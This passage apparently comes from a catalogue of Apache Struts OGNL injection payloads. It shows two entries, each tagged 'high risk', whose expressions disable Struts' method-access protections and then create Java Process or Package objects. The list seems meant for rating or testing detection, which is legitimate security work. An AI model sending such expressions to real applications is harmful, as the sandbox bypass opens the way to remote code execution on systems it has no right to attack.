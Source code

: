 
### 15 = "java.lang.Process"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Process()}
  ```
  ![](./imgs/chop-15-001.png)


### 16 = "java.lang.Package"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Package()}
  ```
  ![](./imgs/chop-16-001.png)
